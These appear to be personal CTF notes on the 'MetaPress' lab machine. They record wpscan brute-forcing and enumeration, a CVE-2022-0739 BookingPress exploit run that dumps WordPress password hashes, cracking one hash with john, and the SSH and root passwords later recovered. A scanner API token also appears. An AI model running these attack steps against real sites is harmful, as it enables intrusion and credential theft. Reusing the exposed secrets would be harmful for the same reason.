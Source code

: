 # 10.10.11.186

# http://metapress.htb/

# wordpress version
5.6.2

#user wordpress
admin
manager

# wpscan brute force
wpscan --url http://metapress.htb/ --passwords ../../../SecLists/Passwords/darkc0de.txt --usernames user.txt

# with API
wpscan --url http://metapress.htb --enumerate ap,at,u,tt --api-token odPqKoPU1sjABqeT5KaD1QjyBEQVh1z88hzOMsV2RCg

# lien interessant
http://metapress.htb/wp-admin/admin-ajax.php

# wpscan plugins detect
wpscan --url http://metapress.htb --enumerate --api-token odPqKoPU1sjABqeT5KaD1QjyBEQVh1z88hzOMsV2RCg -e at,ap --plugins-detection mixed


# json url
http://metapress.htb/wp-json/

# wpnonce value
49de241183

# CVE 2022-0739
python booking-press-expl.py -u 'http://metapress.htb/wp-admin/admin-ajax.php' -n 49de241183
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|

# manager pass
john hash-manager --wordlist=../../../Downloads/rockyou.txt
result : partylikearockstar

# ssh conection
user : jnelson@metapress.htb
pass : Cb4_JmWM8zUZWMu@Ys

# root
5.10.0-19-amd64 #1 SMP Debian 5.10.149-2

pubring.kbx : KBXfcz�Ncz�N

# root
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
